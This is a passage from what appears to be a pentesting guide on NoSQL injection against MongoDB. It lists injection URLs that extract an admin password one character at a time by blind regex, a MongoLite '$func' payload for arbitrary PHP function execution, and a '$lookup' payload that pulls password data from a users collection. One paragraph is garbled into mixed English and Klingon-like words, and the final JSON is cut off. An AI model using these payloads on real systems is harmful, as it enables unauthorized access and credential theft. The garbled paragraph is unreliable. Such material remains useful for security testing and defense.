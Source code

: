 3. **Least Privilege Principle**: Limit the privileges of the database user to minimize the potential impact of an injection attack.

4. **Secure Configuration**: Ensure that the database is properly configured and updated to mitigate known vulnerabilities.

5. **Error Handling**: Implement proper error handling to prevent the leakage of sensitive information in error messages.

By following these best practices, you can significantly reduce the risk of NoSQL injection attacks and protect your MongoDB database from unauthorized access.
```
/?search=admin' && this.password%00 --> Check if the field password exists
/?search=admin' && this.password && this.password.match(/.*/)%00 --> start matching password
/?search=admin' && this.password && this.password.match(/^a.*$/)%00
/?search=admin' && this.password && this.password.match(/^b.*$/)%00
/?search=admin' && this.password && this.password.match(/^c.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj78i3u$/)%00  Found
```
### PHP Arbitrary Function Execution

Using the **$func** operator of the [MongoLite](https://github.com/agentejo/cockpit/tree/0.11.1/lib/MongoLite) library (used by default) it might be possible to execute and arbitrary function as in [this report](https://swarm.ptsecurity.com/rce-cockpit-cms/).
```python
"user":{"$func": "var_dump"}
```
![https://swarm.ptsecurity.com/wp-content/uploads/2021/04/cockpit_auth_check_10.png](<../.gitbook/assets/image (468).png>)

### Get info from different collection

[**$lookup**](https://www.mongodb.com/docs/manual/reference/operator/aggregation/lookup/) jatlh **info** laH **different collection** **`users`**. Example, **entries** password matching wildcard **results** **all**.
```json
[
{
"$lookup":{
"from": "users",
"as":"resultado","pipeline": [
{
"$match":{
"password":{
"$regex":"^.*"
```